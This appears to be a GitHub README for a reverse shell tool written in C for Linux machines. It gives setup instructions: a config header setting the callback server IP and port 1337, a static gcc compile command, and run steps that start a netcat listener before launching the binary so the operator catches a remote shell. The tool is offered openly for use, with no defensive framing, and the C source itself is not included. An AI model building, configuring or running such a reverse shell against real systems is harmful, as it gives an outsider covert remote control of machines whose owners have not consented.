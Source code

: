 ### Reverse Shell For Linux Machines!
<h1 align="center">
	<img src="https://img.icons8.com/ios-filled/344/console.png" width="150px"><br>
    Reverse Shell written in C.
</h1>

### Configuration
Go into `includes/config.h` to change all this.
```c
#pragma once

#define SERVER_IP "127.0.0.1" // Change to your server IP
#define SERVER_PORT 1337 // Changing this is optional
```
### Compiling
```
gcc -static -o reverse_shell main.c
```
### Running
```
[user@linux]$ nc -lvvp 127.0.0.1 1337
-----------------------
[user@linux]$ ./reverse_shell
``` 
### Contributions 🎉
###### If you're interested in contributing simply open a pull request!
